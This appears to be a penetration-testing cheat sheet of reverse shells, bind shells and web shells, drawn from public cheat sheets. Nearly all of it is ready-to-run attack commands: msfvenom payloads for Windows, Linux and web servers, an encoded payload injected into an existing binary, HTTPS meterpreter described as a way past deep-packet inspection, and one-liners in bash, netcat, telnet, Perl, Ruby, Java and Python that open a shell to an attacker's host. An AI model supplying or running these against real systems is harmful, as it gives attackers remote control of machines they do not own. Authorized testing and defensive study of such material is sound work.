 # **Shells**

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:  

- [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)  

- [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## **Windows**

### **Meterpreter**

- #### **Standard meterpreter**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=445 -f exe -o shell_reverse.exe
```
```
use exploit/multi/handlerset payload windows/meterpreter/reverse_tcp
```

- #### **Meterpreter HTTPS**
It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.
```
msfvenom -p windows/meterpreter/reverse_https LHOST=ip LPORT=443 -f exe -o met_https_reverse.exe
```

- #### **Non-staged payload**
```
msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=445 -f exe -o shell_reverse_tcp.exe
```
```
use exploit/multi/handlerset payload windows/shell_reverse_tcp
```

- #### **Staged payload**
```
This must be caught with metasploit. It does not work with netcat.
```
```
use exploit/multi/handlerset payload windows/shell/reverse_tcp
```

- #### **Inject payload into binary**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## **Linux**

- #### **Binary**
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ip LPORT=443 -f elf > shell.elf
```

- #### **Bash**
```
0<&196;exec 196<>/dev/tcp/ip/80; sh <&196 >&196 2>&196
```
```
bash -i >& /dev/tcp/ip/8080 0>&1
```

- #### **Php**
```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## **Netcat**

- #### **Bind shell**
```
#Linuxnc -vlp 5555 -e /bin/bashnc ip 5555# Windowsnc.exe -nlvp 4444 -e cmd.exe
```

- #### **Reverse shell**
```
Linuxnc -lvp 5555nc ip 5555 -e /bin/bash# Windowsnc -lvp 443nc.exe ip 443 -e cmd.exe
```

- #### **With -e flag**
```
nc -e /bin/sh ATTACKING-IP 80
```
```
/bin/sh | nc ATTACKING-IP 80
```

- #### **Without -e flag**
```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## **Ncat**

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

- #### **Bind**
```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --sslncat -v ip 5555 --ssl
```

- #### **Telnet**
```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```
```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

- #### **Perl**
```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- #### **Ruby**
```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

- #### **Java**
```
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

- #### **Python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### **Web-shells**

- #### **PHP**
This php-shell is OS-independent. You can use it on both Linux and Windows.
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=ip LPORT=443 -f raw > shell.php
```

- #### **ASP**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=443 -f asp > shell.asp
```

- #### **WAR**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ip LPORT=443 -f war > shell.war
```

- #### **JSP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ip LPORT=443 -f raw > shell.jsp
```

 
